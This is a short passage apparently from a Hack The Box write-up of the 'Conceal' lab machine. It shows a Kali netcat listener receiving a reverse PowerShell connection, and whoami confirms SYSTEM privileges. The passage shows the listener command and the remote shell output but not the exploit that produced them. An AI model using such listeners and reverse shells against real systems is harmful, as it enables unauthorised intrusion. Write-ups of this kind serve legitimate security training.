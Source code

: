 ```bash
┌──(kali㉿kali)-[~/htb/conceal]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.116] 49702
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

I got a shell as `SYSTEM`.
